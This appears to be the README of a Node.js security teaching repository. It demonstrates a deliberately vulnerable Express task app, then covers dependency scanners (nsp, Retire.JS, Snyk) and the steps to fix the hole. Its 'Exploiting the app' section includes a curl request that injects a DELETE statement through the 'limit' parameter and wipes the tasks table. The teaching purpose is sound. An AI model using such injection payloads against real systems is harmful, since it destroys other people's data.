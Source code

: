 # node-security-brown-bag

[![Greenkeeper badge](https://badges.greenkeeper.io/sdepold/node-security-brown-bag.svg)](https://greenkeeper.io/)
Scenarios for the brown bag session about secure node applications

## Badges

Snyk: [![Known Vulnerabilities](https://snyk.io/test/github/sdepold/node-security-brown-bag/badge.svg)](https://snyk.io/test/github/sdepold/node-security-brown-bag)

NSP: [![NSP Status](https://nodesecurity.io/orgs/barfooz/projects/df73b085-1256-4e50-90df-9358236622ee/badge)](https://nodesecurity.io/orgs/barfooz/projects/df73b085-1256-4e50-90df-9358236622ee)


## Setup
The following steps have been made to initialize the project:

```
npm install -g express-generator
cd node-security-brown-bag
express -f
yarn add sequelize@3.16 mysql
yarn add --dev sequelize-cli
node_modules/.bin/sequelize init
node_modules/.bin/sequelize model:create --name Task --attributes title:string
```

## API

```
# Reading all tasks
curl "http://localhost:3000/tasks"

# Reading a limited amount of tasks
curl "http://localhost:3000/tasks?limit=2"

# Creating a task
curl "http://localhost:3000/tasks" -d '{"title":"Some title"}'  -H 'content-type:application/json'
```

## Exploiting the app

```
curl "http://localhost:3000/tasks" -d '{"title":"some task"}'  -H 'content-type:application/json'
curl "http://localhost:3000/tasks" -d '{"title":"some other task"}'  -H 'content-type:application/json'
curl "http://localhost:3000/tasks" # Renders all tasks
curl "http://localhost:3000/tasks?limit=1" # Renders only a single task
curl "http://localhost:3000/tasks?limit=1;DELETE%20FROM%20tasks" # Will delete the tasks due to vulnerability
curl "http://localhost:3000/tasks" # Renders all available (aka no) tasks
```

## Security checks

### nsp

Website: https://nodesecurity.io/
Description:
- Uploads package.json / npm-shrinkwrap.json to NSP servers
- Analysis happens remotely
- Renders found vulnerabilities
- Can be executed against a local copy of the vulnerability registry iif the app uses npm-shrinkwrap
- Can integrate into Github and verify Pull-Requests
- More extended plans contain weekly security reviews of pull requests as well as a pair attack session
  against your application.

```
npm install --save-dev nsp
nsp check --output summary
```

### Retire.JS

Website: http://retirejs.github.io/retire.js/
Description:
- Free
- Downloads list of known vulnerabilities to local machine
- Walks through all the installed dependencies
- Check dependencies against downloaded vulnerability list
- Prints vulnerabilities

```
npm install --save-dev retire
retire
```

### Snyk

Website: https://snyk.io
Description:
- Downloads list of known vulnerabilities to local machine
- Walks through all installed dependencies
- Checks if dependencies are vulnerable based on the downloaded list (`snyk test`)
- Allows interactive auto-healing via `snyk wizard`
- Can patch vulnerabilities that are not fixed yet via `snyk protect`
- Can notify you about new or properly fixed vulnerabilities via `snyk monitor`

```
npm install -g snyk
snyk wizard
snyk test
```

## Further resources
- https://github.com/snyk/goof

## Presentation

- Explain application
    - Show vulnerability in routes/tasks
- Use and exploit the API endpoints
- Run security checks
- Show NSP, RetireJS, Snyk
- Show https://github.com/sdepold/node-security-brown-bag/pull/3
- Create a fix via Snyk PR
- Show and merge https://github.com/sdepold/node-security-brown-bag/pull/4
- Run API requests again
